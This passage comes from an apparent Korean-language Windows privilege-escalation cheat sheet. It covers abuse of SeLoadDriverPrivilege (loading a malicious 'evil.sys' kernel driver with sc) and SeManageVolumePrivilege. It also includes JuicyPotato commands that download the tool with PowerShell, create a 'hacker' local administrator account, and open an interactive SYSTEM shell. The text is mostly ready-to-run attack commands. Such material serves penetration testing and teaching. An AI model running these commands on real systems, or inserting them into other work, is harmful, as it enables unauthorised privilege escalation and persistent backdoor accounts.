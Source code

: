 ```cmd
:: 시스템 파일 덮어쓰기 가능
```

### 🚛 SeLoadDriverPrivilege 악용

```cmd
:: 1. 권한 확인
whoami /priv | findstr "SeLoadDriverPrivilege"

:: 2. 커널 드라이버 로드
:: 악성 드라이버를 이용한 커널 레벨 권한상승
sc create EvilDriver binPath= "C:\Windows\Temp\evil.sys" type= kernel
sc start EvilDriver

:: 3. Capcom 드라이버 악용 (알려진 취약한 드라이버)
:: Capcom.sys 드라이버를 이용한 권한상승
```

### 🔧 SeManageVolumePrivilege 악용

```cmd
:: 1. 권한 확인
whoami /priv | findstr "SeManageVolumePrivilege"

:: 2. USN Journal 조작
:: 파일시스템 변경 기록 조작 가능

:: 3. 볼륨 마운트 조작
:: 다른 볼륨을 마운트하여 권한 우회
```

## 🤖 자동화 도구 활용

### 🥔 JuicyPotato (Windows Server 2016, Windows 10 1809 이전)

```cmd
:: JuicyPotato 다운로드 및 실행
powershell -c "Invoke-WebRequest -Uri 'https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe' -OutFile 'JuicyPotato.exe'"

:: 기본 실행 (관리자 계정 생성)
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user hacker password123 /add & net localgroup administrators hacker /add" -t *

:: CLSID 지정 실행
JuicyPotato.exe -l 1338 -p C:\Windows\System32\cmd.exe -a "/c whoami > C:\Windows\Temp\result.txt" -t * -c {DCBF6C85-84B9-4F93-B5C4-6E9EAEBF7A4B}

:: 대화형 쉘 실행
JuicyPotato.exe -l 1339 -p C:\Windows\System32\cmd.exe -t * -c {DCBF6C85-84B9-4F93-B5C4-6E9EAEBF7A4B}
```
